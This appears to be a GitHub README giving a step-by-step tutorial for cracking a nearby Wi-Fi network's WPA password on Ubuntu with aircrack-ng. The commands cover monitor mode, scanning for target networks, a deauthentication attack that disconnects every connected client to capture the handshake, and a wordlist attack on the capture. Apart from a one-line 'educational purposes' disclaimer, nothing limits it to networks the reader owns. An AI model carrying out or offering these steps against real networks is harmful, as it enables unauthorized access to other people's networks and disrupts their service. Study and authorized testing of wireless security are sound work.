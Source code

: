 # Cracking Wifi Password With Ubuntu #
This repository is intended for only educational purposes. It should not be used for illegal activity.  
First thing you have to do is to make sure ubuntu is up to date. So open up a terminal and write:
``` 
sudo apt-get update
sudo apt-get upgrade
```
The second step is to install the ```aircrack-ng``` which is the tool that we are going to use for getting the wifi password.
```
sudo apt-get install aircrack-ng
```
In order to crack the Password you have to get a usb wifi module. If you don't they maybe you are not going to be able to get it work. 

## Start Monitoring Mode ##
After making sure that the usb wifi antenna works just fine then we have change the antenna state to monitoring. In order to do that we need first to find antennas name. We will open our First-terminal and type:
```
iwconfig
```
then we should find the name of the usb antenna. Mine is `wlx1cbfce3860a6` for example. So now we start the monitoring mode with the command:
```
sudo airmon-ng start wlx1cbfce3860a6
```
Change the word `wlx1cbfce3860a6` accordingly to our own device name. Plus you will see afterwards that the device name has changed to something else. Mine is `wlan0mon` for example.

## Search for nearby wifi ##
In this step we are going to select a wifi that we will crack the password.
```
NOTE: You should be sure that another device is connected to this wifi. For example a phone, tablet, Computer. You will understand later why...
```
So in order to select we have to scan the area. Type:
```
sudo airodump-ng wlan0mon
```
Now in the terminal you can see the BSSIDs and the name of the wifis. Copy the BSSID of the wifi that you are interested in and remember the Channel number of this wifi. 

## Get the handshake
So now we are going to "listen" what this wifi transmits. To do that open a Second-terminal and use:
```
sudo airodump-ng -c X --bssid xx:xx:xx:xx:xx:xx -w FILENAME wlan0mon
```
Where X is the channel number, xx:xx:xx:xx:xx:xx is the BSSID the we copied before and FILENAME is the name of the file that we are going to store data in. Now we have to disconnect everyone from that wifi address. To do that we have to create some traffic to that address. We are going to open a Third-terminal and use this command in order to do that:
```
sudo aireplay-ng --deauth 10 -a xx:xx:xx:xx:xx:xx wlan0mon 
```
So what's the point of creating traffic and disconnecting everyone?? We have to do that cause after everyone disconnects then the will try to log in again. In this way they are trying to tell the password to the router. But we are "listening" the routers channel and we get this password and store it into a file. The password is still in a encoded state and we cannot find it really easy. Now we can stop the traffic and check if we get a handshake. To do that we open up the last and Fourth-terminal and use:
```
sudo aircrack-ng FILENAME.cap
```
In the Encryption section you are going to see something like `WPA (1 handshake, with PMKID)`.If you this message then you have succesfully find a handshake. If you dont then try again to create traffic and then wait for the handshake (or make sure again someone is connected in this wifi).

## Find the password
The last step is all about finding the password from the FILENAME.cap file. So we can turn off the monitoring mode from the First-terminal with the command:
```
sudo airmon-ng stop wlan0mon
``` 
And now we can go in the Fourth-terminal and then download the Passwords.txt file in the same folder. Then just type:
```
sudo aircrack-ng FILENAME.cap -w Passwords.txt
```
And in a few moments if the password is in the Passwords.txt you will find it.